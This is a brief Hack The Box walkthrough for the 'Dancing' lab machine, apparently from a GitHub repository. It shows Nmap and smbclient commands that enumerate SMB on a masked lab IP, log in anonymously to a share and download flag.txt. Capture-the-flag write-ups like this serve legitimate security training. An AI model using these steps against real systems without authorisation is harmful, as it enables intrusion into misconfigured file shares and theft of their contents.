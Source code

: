 # 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
•	Nmap
•	smbclient
•	Kali Linux

## 🔎 Nmap Enumeration
•	nmap -sCV 10.10.xx.xx
•	Port 445: SMB open
•	Port 135: RPC

## 🛠️ Server Message Block(SMB) Enumeration
•	smbclient -L 10.10.xx.xx
•	Anonymous login enabled
•	Found share: WorkShares

## 💥 Exploit
•	Used credentials found to log in or access flag path.
smbclient //10.10.xx.xx/WorkShares -N
•	Download files:
1.	ls
2.	cd Amy.J
3.	ls
4.	cd ..
5.	cd James.P
6.	ls
7.	get flag.txt


